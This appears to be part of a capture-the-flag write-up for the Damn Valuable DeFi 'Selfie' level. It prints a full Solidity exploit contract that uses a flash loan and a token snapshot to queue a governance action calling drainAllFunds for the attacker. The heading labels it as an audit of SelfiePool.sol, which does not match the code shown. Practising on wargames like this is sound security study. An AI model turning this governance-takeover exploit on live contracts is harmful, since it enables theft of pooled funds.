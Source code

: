 
## Code Audit
> SelfiePool.sol
``` solidity
pragma solidity ^0.8.0;

import "../DamnValuableTokenSnapshot.sol";
import "./SimpleGovernance.sol";
import "./SelfiePool.sol";

contract SelfieExploit {

    SimpleGovernance public governance;
    SelfiePool public pool;
    
    uint256 public actionId;

    constructor(address gvContract, address poolContract) public {
        governance = SimpleGovernance(gvContract);
        pool = SelfiePool(poolContract);    }


    function receiveTokens(DamnValuableTokenSnapshot token, uint256 amount) public returns(uint256){
        token.snapshot();
        token.transfer(msg.sender, amount);
        actionId = governance.queueAction(
                    address(pool), 
                    abi.encodeWithSignature(
                        "drainAllFunds(address)",
                        tx.origin
                    ),
                    0
        );
        return actionId;
    }

    function _exploit(uint256 amount) public {
        pool.flashLoan(amount);
    }
}
```
### Dependency
``` text
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "@openzeppelin/contracts/token/ERC20/extensions/ERC20Snapshot.sol";
import "@openzeppelin/contracts/utils/Address.sol";
import "./SimpleGovernance.sol";
```

- The @Openzeppelin external library contract is dependent on ReentrancyGuard, ERC20Snapshot, Address.
- Using the internal contract SimpleGovernance.
